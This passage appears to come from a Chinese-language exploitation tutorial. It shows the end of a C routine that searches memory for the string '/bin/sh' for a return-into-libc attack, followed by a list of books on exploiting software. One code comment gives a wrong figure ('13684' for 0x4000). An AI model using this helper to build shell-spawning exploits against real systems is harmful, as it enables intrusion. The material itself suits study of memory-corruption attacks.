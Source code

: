 ```
    else
        step = -1;
    shell = (int)sysaddr;
    signal(SIGSEGV, fault);

    do
        while(memcmp((void *)shell, "/bin/sh", 8)) shell += step;

    while(!(shell & 0xff) || !(shell & 0xff00) || !(shell & 0xff0000)
            || !(shell & 0xff000000));

    printf("\"/bin/sh\" found at %08x\n", shell + 16384); /* 13684 = 0x4000 = base addr */

    return 0;
}
```

> 参考文献：
> Advanced return-into-lib(c) Exploits
> Gray Hat Hacking , The Ethical Hacker's Hanbook
> Exploiting Software: How to Break Code